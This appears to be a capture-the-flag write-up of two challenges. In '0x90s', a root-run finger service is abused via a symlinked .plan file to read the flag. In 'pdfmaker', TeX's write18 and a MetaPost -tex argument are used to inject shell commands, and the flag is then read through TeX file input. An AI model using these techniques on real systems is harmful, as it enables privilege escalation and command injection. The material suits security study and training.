 0x90s
=====

0x90s was a qemu image of an old slackware install. After logging in with the supplied credentials (`challenge/challenge`) you quickly found the flag in the / directory but without the permissions to access it. While looking around for something to exploit I noticed finger running with root privileges.

```
$ ln -s /flag /home/challenge/.plan
$ finger -l challenge@localhost`
```

pdfmaker
========

```
[fengor@chaos ~]$ cat x.mp
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye

[fengor@chaos ~]$ cat pdfmaker.tex 
\documentclass{article}
\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;cwd;ls)>flag2.tex" "x.mp"}
\end{document}


[fengor@chaos ~]$ cat showflag.tex 
\documentclass{article}
\begin{document}
\newread\file
\immediate\openin\file=
\immediate\read\file to \line
\immediate\typeout\line
\immediate\closeout\file
\end{document}
```

1. login to pdfmaker
2. create mp x ( see x.mp above)
3. create tex pdfmaker (see pdfmaker.tex above)
4. compile pdfmaker
5. show tex flag2 and note down filename
6. create tex showflag and add filename after file=
7. compile showflag
8. show log showflag
